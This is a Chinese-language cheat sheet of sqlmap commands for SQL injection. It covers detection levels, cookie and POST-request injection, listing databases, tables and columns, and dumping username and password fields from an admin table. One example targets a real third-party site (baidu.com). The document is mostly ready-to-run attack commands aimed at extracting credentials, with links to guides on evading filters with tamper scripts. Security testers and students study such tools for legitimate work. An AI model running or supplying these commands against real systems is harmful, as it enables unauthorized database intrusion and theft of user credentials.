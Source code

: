 推荐网站:https://www.waitalone.cn/sqlmap-users-manual.html

当什么都弄不出来的时候：--flush-session --random-agent --level=5 --risk=3 -batch

**检测注入**

**基本格式**

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

**cookie注入**

当程序有防get注入的时候，可以使用cookie注入

sqlmap -u “http://www.baidu.com/shownews.asp” --cookie “id=11” --level 2（只有level达到2才会检测cookie）

**从post数据包中注入**

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” --dbms mysql    指定username参数

**注入成功后**

**获取数据库基本信息**

**查询有哪些数据库**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 --dbs

**查询test数据库中有哪些表**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --tables

**查询test数据库中admin表有哪些字段**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --columns

**dump出字段username与password中的数据**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin -C “username,password” --dump

**也可以提前用--dump**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --dump

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --dump

**从数据库中搜索字段**

**在dedecms数据库中搜索字段admin或者password。**

sqlmap -r “c:\tools\request.txt” --dbms mysql -D dedecms --search -C admin,password





**sqlmap的高级用法**

tamper:

http://www.myh0st.cn/index.php/archives/881/

https://xz.aliyun.com/t/2746

•https://www.freebuf.com/sectool/179035.html